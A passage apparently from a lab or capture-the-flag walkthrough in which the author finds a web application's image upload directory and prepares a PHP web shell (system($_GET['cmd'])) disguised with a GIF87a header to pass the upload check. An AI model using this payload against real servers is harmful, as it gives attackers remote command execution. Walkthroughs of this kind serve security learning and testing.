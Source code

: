 ![](../images/max/889/1*u8QmH5-qsSoTE2hd3zbVjw.png)

View page source to see the output of the application \(client side scripts don’t seem to be functioning properly\).

![](../images/max/1339/1*BUSirQR7XykwWAC_9AQdGw.png)

The image was successfully uploaded in the above location. So not only do we have a place to upload files, but we also know the location where we can call and execute these files. Let’s try uploading a PHP file \(_test.php_\).

```text
GIF87a                                                                                                                                                                         
<?php system($_GET['cmd']); ?>
```
